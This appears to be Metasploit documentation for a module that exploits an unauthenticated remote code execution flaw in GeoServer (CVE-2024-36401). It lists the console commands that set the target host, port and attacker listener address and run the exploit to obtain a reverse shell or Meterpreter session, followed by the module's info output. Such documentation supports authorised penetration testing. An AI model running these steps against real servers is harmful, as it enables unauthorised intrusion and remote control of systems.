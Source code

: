 You are ready to test the module.

## Verification Steps

- [ ] Start `msfconsole`
- [ ] `use exploit/multi/http/geoserver_unauth_rce_cve_2024_36401`
- [ ] `set rhosts <ip-target>`
- [ ] `set rport <port>`
- [ ]  `set lhost <attacker-ip>`
- [ ] `set target <0=Unix Command, 1=Linux Dropper>`
- [ ] `exploit`
- [ ] you should get a `reverse shell` or `Meterpreter` session depending on the `payload` and `target` settings

## Options
No specific options.

## Scenarios
```msf
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > info

       Name: Geoserver unauthenticated Remote Code Execution
     Module: exploit/multi/http/geoserver_unauth_rce_cve_2024_36401
   Platform: Unix, Linux
       Arch: cmd, x86, x64, aarch64, armle
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2024-07-01

Provided by:
  h00die-gr3y <h00die.gr3y@gmail.com>
  Steve Ikeoka

Module side effects:
 ioc-in-logs
 artifacts-on-disk

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
      Id  Name
      --  ----
  =>  0   Unix Command
      1   Linux Dropper

Check supported:
  Yes

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basi
                                        cs/using-metasploit.html
  RPORT      8080             yes       The target port (TCP)
```